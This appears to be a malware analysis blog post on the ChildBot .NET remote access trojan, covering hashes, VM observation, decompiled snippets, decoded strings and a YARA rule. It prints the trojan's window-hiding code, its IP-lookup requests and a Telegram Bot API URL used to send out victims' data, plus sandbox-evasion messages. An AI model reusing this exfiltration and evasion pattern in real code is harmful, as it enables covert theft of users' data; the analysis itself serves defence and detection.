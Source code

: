 ```yaml
---
  title: "ChildBoT Analysis"
  date: 2024-01-17 00:00:00 +0800
  categories: Malware Analysis
  tags: [Malware Analysis,ChildBot]
---
```


# ChildBoT Analysis

## Analysis
```
MD5:30705266725F9BAD60EA12821ACF740A
SHA256: D60BB69DA27799D822608902C59373611C18920C77887DE7489D289EBF2BD53E
```

### Virus Total 

- At VirusTotal.com, 40 out of 69 engines for AV detection mark the software as malicious.


![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/7d73a746-3200-4d93-ac1e-67d33c5ea518)


### CFF explorer

- I ran CFF explorer on the executable file to find that it is a .NET framework executable.

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/8bc7edb1-de5a-44a4-954e-9ff3da4866a1)


- Let's fire it up inside a VM and see its activity:

### ProcMonitor

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/b575b129-fbe0-4d09-893d-e59b1268a39a)


### Task Manager

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/a3ede584-3498-4e9e-9a90-f0b36f6746b0)


- I used dnSpy 32-bit version to decompile the executable file to get the csharp code of the file.


![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/3c81944c-e0a4-4688-9f6e-661c7dc0ca9a)

- First of all , the malware is as usual trying to hide itself from the user hiding its window as well as not making itself visible on the taskbar using:

```
	base.Hide();
	base.WindowState = FormWindowState.Minimized;
	base.FormBorderStyle = FormBorderStyle.None;
	base.ShowInTaskbar = false;
```
- Here I first find the HttpRequest function which is trying to access an unknown host server:

```
http://icanhazip.com
```
- I sent requests to this server only to get an IP-Address: 

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/be853dec-71f6-4f31-96eb-ac9ed9393d4d)

- This function is trying to access the windows registry keys and modifying them

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/94e661d0-d342-4a33-bc8a-0365b9939811)

- Registry keys acessed and modified to:

```
SOFTWARE\WOW6432Node\Clients\StartMenuInternet =>SOFTWARE\Clients\StartMenuInternet
```
- The malware tries to find the string `あใはさまゆさปありねひむよとよฃยねปむ` inside the XML documents using the XMLParser.

- The malware is sending a `GET` request to the host: `https://api.telegram.org/bot/sendMessage?chat_id=<chat_id>&text=<Victim's_Data>`

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/5850ca25-5a7e-4e77-9310-f3a250889837)

- The malware also tries to capture the keyboard and display control using SQL Queries inside the Registy Key Editor:

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/f24b3a77-31b8-450e-ba91-ca12859ef4b8)

The base64 string decodes to :

```
Select * from Win32_Keyboard
```
- This function tries to make a `GET` request on:

```
http://ipinfo.io/ip
```

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/202f669c-ad95-4e94-bd51-da6ba4da1de4)


and is splitting and trimming all the data received by it to get the data in raw format.
- The data received at this host address is another IP-Address:

```
122.176.193.234
```
- The function `fn_check_activity` checks all the results of the functions trying to get the info about the victim's system and use `SQLite.Interop.dll` for this.

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/454671f9-a40f-433e-aa4d-a9500a47f1fb)

- It tries to find some strings inside the Registry Keys Editor in Windows system in order to modify them in favour of the attacker:

```
Microsoft Edge
IEXPLORE.EXE
```
- During my analysis I came up to witness some base64 encoded strings that were being sent to the server after some basic checks on the local system of the victim.
```
4puU77iPIERFVEVDVCBWTSxTQU5CT1g6 : {⛔️ DETECT VM,SANBOX:} 
VG8gY29udGludWUgcGxlYXNlIHdyaXRlIHRoZSBjb250ZW50OiBbSFdJRF0tU0tJUCBWTSBPciDinYwgRXhpdCAgOltIV0lEXS1FWElU : {To continue please write the content: [HWID]-SKIP VM Or ❌ Exit  :[HWID]-EXIT}
V2UgYXJlIHN0aWxsIGFjdGl2ZSB1bnRpbCB2aWN0aW1lIHNodXRzIGRvd24h : {We are still active until victime shuts down!}
 LSBNYXliZSBWTSxTYW5ib3g= : - Maybe VM,Sanbox
 LUVYSVQ= : {-EXIT}
 4p2MRVhJVCBTVUNDRVNT : {❌EXIT SUCCESS}
```

- This function makes a GET request to `
https://api.telegram.org/bot
` and try to give a form of data to a telegram bot.

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/58af3d36-8014-465c-a51b-1dcbe48ec761)


- However if the chat_id is not known.

```
{"ok":false,"error_code":404,"description":"Not Found"}
```
- The malware is using FNV hashing algorithm to hash the strings inside the malware 

![image](https://github.com/it4ch1-007/it4ch1-007.github.io/assets/133276365/ffc44b73-8677-4c85-bf3d-0e0d04a0699e)

- This string is added to access the updates as got by the bot from the web server where the bot is working: `https://api.telegram.org/bot/getUpdates`

#### It is a RAT which is doing various malicious activities like: 
- Modifying Windows Registry keys
- `GET` Requests to unknown malicious websites.
- Setting up a Telegram Bot to update send the victim's private data and update it regularly.


### Yara Rules:
```
rule base64_string{
meta:
	desc = "base64 strings found decrypted."
	weight = 7
strings:
	$b1 = "SUVYUExPUkUuRVhF"
	$b2 = "TWljcm9zb2Z0IEVkZ2U="
	$b3 = "4p2MRVhJVCBTVUNDRVNT"
	$b4 = "LUVYSVQ="
	$b5 = "LSBNYXliZSBWTSxTYW5ib3g="
	$b6 = "VG8gY29udGludWUgcGxlYXNlIHdyaXRlIHRoZSBjb250ZW50OiBbSFdJRF0tU0tJUCBWTSBPciDinYwgRXhpdCAgOltIV0lEXS1FWElU"
	$b7 = "V2UgYXJlIHN0aWxsIGFjdGl2ZSB1bnRpbCB2aWN0aW1lIHNodXRzIGRvd24h"
	$b8 = "4puU77iPIERFVEVDVCBWTSxTQU5CT1g6"
	$b9 = "aHR0cDovL2lwaW5mby5pby9pcA=="
conditions:
	$b1 and $b2 and $b3 and $b4 and $b5 and $b6 and $b7 and $b8 and $b9
}
```

